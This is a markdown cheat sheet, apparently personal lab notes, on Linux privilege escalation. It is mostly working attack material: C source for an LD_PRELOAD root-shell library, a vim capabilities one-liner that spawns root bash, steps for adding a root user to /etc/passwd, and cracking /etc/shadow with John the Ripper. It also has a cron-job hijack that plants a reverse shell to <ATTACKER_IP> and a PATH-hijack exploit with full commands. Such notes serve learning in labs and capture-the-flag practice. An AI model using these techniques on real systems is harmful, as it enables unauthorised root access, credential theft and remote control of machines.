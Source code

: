 # Linux Previledge Escalation

What to do here?

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## 1. Linux Eneumeration

Check out my [leb-LinuxEchoBeach](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md) for eneumerating Linux System

Also, you can get some knowledge about wargames at my soloutions to overthewire [bandit](https://github.com/Yeaseen/overthewire-solve/tree/main/Bandit)

## 2. Automated Eneumeration Scripts with prospective exploitation points

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LES(Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)

Donlowad any of the script on your local machine and transfer this to the compromized VM either using [scp command](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md#copy-files-between-two-different-network-remotely) or creatimg python [simple http server](https://github.com/Yeaseen/leb-LinuxEchoBeach/blob/main/leb.md#in-the-same-networkhost-and-virtual-oses-file-transfer-between-two-machines-using-python-server)

## 3. Kernel Exploits for Privilege Escalation

- One way:
  Find the Linux Kernel and System versions. Go to exploit-db or dimilar websites to grab a script. Make your you have all the necessary packages installed on the device, otherwise you will just destroy the compromized system.
  You can use the following script for Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04)

  - ['overlayfs' Local Privilege Escalation](https://www.exploit-db.com/exploits/37292)
    For this, you need to have gcc installed on the system.

- Another way:
  Search if nano command is exploitable. If exploitable, press ctrl+R, ctrl+X and execute `bash reset; bash 1>&0 2>&0`
  Eventually, you should get the root access.

## 4. Sudo Vulnerability for Privilege Escalation

- Leverage application functions
  Here you have to find an application that supports loading alternative configuration file such as Apache2's -f option to specify an alternative ServerConfigFile. You can load /etc/shadow file using -f option of apache2 command, resulting in an error message that includes the first line of the /etc/shadow file.

- Leverage LD_PRELOAD

  - On some systmes, `bash sudo -l` will give you its current situation related to root privileges. Such as whether env_keep variable is enabled. If it is: env_keep+=LD_PRELOAD, that means we can create a shared library object so file to first unset the env file and load the /bash/bin or /bash/sh file.
  - LD_PRELOAD-->These capabilities often involve manipulating or intercepting function calls within programs, allowing for customization or modification of their behavior.
  - The steps of this privilege escalation vector can be summarized as follows;

    - Check for LD_PRELOAD (with the env_keep option)
    - Write a simple C code compiled as a share object (.so extension) file
    - Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

  - The following about.c code simply spawns a root shell

    ```
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
    }
    ```

  - compile it using gcc into a shared object file using the following parameters:
    `bash gcc -fPIC -shared -o about.so about.c -nostartfiles`
  - Now, we have the capability to employ this shared object file when initiating any program accessible to our user through the sudo command. In our scenario, programs like Apache2, find, or nearly any other program executable with sudo privileges can leverage this shared object file.
  - run the program by specifying the LD_PRELOAD option, resulting in a shell spawn with root previledges
    `bash sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
  - check by running `bash id`

## 5. SUID vulnerabilty for Priviledge Escalation

Linux privilege controls heavily hinge on managing the interactions between users and files, achieved through permissions. As you're aware, files can possess read, write, and execute permissions, each granted to users based on their privilege levels. However, the dynamics shift with SUID (Set-user Identification) and SGID (Set-group Identification). These mechanisms enable the execution of files with the permission level of either the file owner (SUID) or the group owner (SGID). Follow [this](https://www.scaler.com/topics/special-permissions-in-linux/) and [this](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit). `bash find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set. A good practice would be to compare executables on this list with GTFOBins [suid](https://gtfobins.github.io/#+suid)

- One way: reading the /etc/shadow file or adding our user to /etc/passwd if you can. Try to use cp command to get the /etc/passwd file to /tmp directory.

  - run `bash openssl passwd -1 salt THM passsword`
  - add the following line to etc/passwd
    <attacker_name>:<created_hash_for_passsword>:0:0:root:/root:/bin/sh

- Other way: Password Cracking using johntheripper
  - On your Kali Linux: put contents of /etc/passwd to password.txt and contents of /etc/shadow to shadow.txt
  - run `bash base64 /etc/passswd | base64 --decode` if you don't have read permission. It's one way to read the original contents of a file you don't have permission.
  - run `bash unshadow passwd.txt shadow.txt > passwords.txt`
  - get password of the current users: `bash john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`

## 5. Capabilities Escalation

You can check any capabilities using the command `bash getcap -r / 2>/dev/null`
If the system is not updated, you should go for vim as vim is not a binary which generally needs capabilities.
If you find any binary whose capabilities are set from other user's home, then it's vulnerable.

Now, Run the following command to exploit vim: make sure to check whether it's bash or sh. This will give you root access.

```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-c", "reset; exec bash")'
```

## 6. Cron Jobs Escalation

If a scheduled task is set to run with root privileges, and we can modify the script it executes, our script will also execute with root privileges. `bash cat /etc/crontab` will give you all the scripts which are scheduled. Now find which script is running as root and you have access to that script, then modify it.

If you get anything like that, add a reverse shell attack by adding the following command in that script file. Make sure that the script has the permission to run. If not, run `bash chmod +x <script_name>`
`bash bash -i >& /dev/tcp/<ATTACKER_IP>/6666 0>&1`

## 7. Priviledge Escalation through PATH environment variable

You can find the $PATH folders using `bash echo $PATH` which will give you the folders where Linux will start searching for any command/executable files if it's not built into shell or not defined with an absolute path.
How to leverage this:

- What folders are located under $PATH
- Does your current user have write privileges for any of these folders?
- Can you modify $PATH?
- Is there a script/application you can start that will be affected by this vulnerability?

Now, write what.c file:

```#include<unistd.h>
void main(){
  setuid(0), setgid(0), system("ppp");
}
```

Now, make executables, set the SUID bit, search for writable folders under $PATH, create a binary named "what" and get the "what" script to run it. The binary will run with root priviledge as the SUID bit is set. So, it will try to execute "ppp" command from the folders under $PATH. Your task is to create the ppp script(just an echo) under any of the writable folder that can be accessible from $PATH.

```bash
gcc what.c -o what -w

#set suid bit
chmod u+s what

#check whether s bit is set or not
ls -l

#Check for setuid bit for folders
find / -perm -u=s -type f 2>/dev/null

#search for writable folders under $PATH
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
#The following will also give subfolder names and  “grep -v proc” to get rid of the many results related to running processes
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

#As usually /tmp folder is available for writing a script. and set this folder under $PATH variable.
export PATH=/tmp:$PATH
echo $PATH
cd /tmp && echo "/bin/bash" > ppp
chmod 777 ppp
ls -l ppp
cd ..

#Now go to the what binary file location and try to run that binary file
whoami
id

./what

#The following should be root
whoami
id

```

You might find that gcc isn't installed. Then you should look for a unusual folder that can be accessible. And you might find a binary file. Try to run that and follow what command it wants to execute. Then do the above part in one of the writable folders such as tmp, and run the binary file.
